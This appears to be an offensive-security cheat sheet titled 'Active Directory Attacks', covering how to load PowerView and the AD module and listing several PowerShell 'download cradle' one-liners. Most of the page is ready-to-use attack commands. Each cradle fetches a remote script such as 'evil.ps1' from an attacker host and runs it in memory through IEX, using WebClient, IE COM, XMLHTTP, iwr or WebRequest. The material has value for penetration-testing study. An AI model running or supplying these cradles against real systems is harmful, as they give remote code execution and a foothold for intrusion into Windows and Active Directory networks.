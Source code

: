 # Active Directory Attacks

## Powershell

### Load a Powershell Script

#### Dot Sourcing

```powershell
. C:\AD\Tools\PowerView.ps1
```

#### Import-Module

```powershell
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

#### List commands in a Module

```powershell
Get-Command -Module <modulename>
```
#### Execute Download Cradle

##### IEX

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

```

##### IE

```powershell
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
````

##### PSv3 Onwards - IEX & IWR

```powershell
iex (iwr 'http://192.168.230.1/evil.ps1')
```

##### h

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

##### iwr

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1") $r = $wr.GetResponse() IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
##### Cradle Crafter

https://github.com/danielbohannon/Invoke-CradleCrafter

